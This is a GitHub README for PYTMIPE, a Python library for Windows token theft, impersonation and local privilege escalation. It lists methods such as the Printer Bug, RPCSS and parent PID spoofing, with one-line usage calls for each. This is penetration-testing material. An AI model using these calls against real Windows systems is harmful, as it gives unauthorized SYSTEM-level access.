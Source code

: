 PYTMIPE
====

__PYTMIPE__ (PYthon library for Token Manipulation and Impersonation for Privilege Escalation) is a Python library for manipulating Windows tokens and managing impersonations in order to gain more privileges on Windows. It implements some exploits for local privilege escalations on Windows.


Features
====

The following non-exhaustive list shows some features implemented in pytmipe:
* Token and privileges management:
  * get, enable or disable privilege(s) on token for current or remote thread
  * get local or remote token information
  * get effective token for current thread (impersonation or primary token)
* get many information about selected token(s):
  * elevation type
  * impersonation type
  * Linked token with details
  * SID
  * ACLs
  * default groups
  * primary group
  * owner
  * privileges
  * source
  * etc
* __List all tokens which are accessible__ (primary & impersonation tokens) from current thread.
  * 2 different methods implemented: "thread" method and __"handle"__ method (favorite)
  * check if token can be impersonated
  * get information about each token (elevation type, impersonation type, Linked token, SID, etc)
  * get all tokens which are accessible by account name (SID)
* Impersonate a token or user:
  * Make Token and Impersonate (requires credentials of user)
  * Token impersonation/theft (specific privileges are required): impersonate a chosen token
  * Create Process with a token (specific privileges are required): impersonate a chosen token and create new process
  * __Impersonate first *nt authority\system* token__ found
  * impersonate primary token of remote process with pid
* Escalation methods:
  * __Parent PID Spoofing__ - Handle Inheritance
  * Service Manager via direct command or named pipe impersonation: local administrator to *nt authority\system* (or orther privileged account)
  * Task scheduler via direct command or named pipe impersonation: local administrator to *nt authority\system*
  * WMI job via direct command or named pipe impersonation: local administrator to *nt authority\system*
  * __Printer Bug__: *SeImpersonatePrivilege* to *nt authority\system*
  * __RPCSS__: *SeImpersonatePrivilege* to *nt authority\system*
  * __Re enable privileges__ via task scheduling and named pipe impersonation
  
Dependencies
====

*ctypes* is used a maximum of time.
Many features of *pywin32* have been re developped in pytmipe to avoid the use of *pywin32* for better portability.
However, some features of pytmipe still use *pywin32* (e.g. *pythoncom*) by lack of time.
For example, Windows services management and token manipulation/management is done with ctypes only but Windows Task Scheduler management is done over *pythoncom*/*win32com* (*pywin32*).

Examples
====

Get all details of each accessible token (primary & impersonation) of all processes running locally on the system with the "handle" method:
```python
imp = Impersonate()
imp.printAllTokensAccessible(targetPID=None, printFull=True, printLinked=True, _useThreadMethod=False)
```

List token(s) by account name (SID) in process with pid 548 and use "handle" method:
```python
imp = Impersonate()
imp.printTokensAccessibleByAccountNameAndPID(targetPID=548, _useThreadMethod=False)
```

List all token(s) by account name (SID) in all processes and use "thread" method:
```python
imp = Impersonate()
imp.printTokensAccessibleByAccountNameAndPID(targetPID=None, _useThreadMethod=True)
```

Impersonate the first *nt authority\system* token (primary or impersonation) found in a process running locally:
```python
imp = Impersonate()
imp.searchAndImpersonateFirstSystemToken(targetPID=None)
```

Exploit the "Printer Bug" for privilege escalation from *SeImpersonatePrivilege* to *nt authority\system*:
```python
esc = Escalation()
esc.namedPipeImpersonationViaPrinterBug()
```
  
Exploit the RPCSS service for privilege escalation from *SeImpersonatePrivilege* to *nt authority\system*:
```python
esc = Escalation()
esc.namedPipeImpersonationViaRPCSS()
```

Re give full power (privileges) with task scheduling and named pipe impersonation:
```python
esc = Escalation()
esc.reGiveMePower(debug=True)
```

Privilege escalation from Local Administrator to *nt authority\system* with Windows Task Scheduler
```python
esc = Escalation()
esc.namedPipeImpersonationViaTaskScdh()
```

Parent PID Spoofing (pid 400) and executre cmd.exe
```python
esc = Escalation()
esc.spoofPPID(500, "c:\\windows\\system32\\cmd.exe")
``` 
  
HOW TO USE
====
See source code.
Normally, I have well documented the source code...

Donation
====
If you want to support my work doing a donation, I will appreciate a lot:

Via BTC: 36FugL6SnFrFfbVXRPcJATK9GsXEY6mJbf
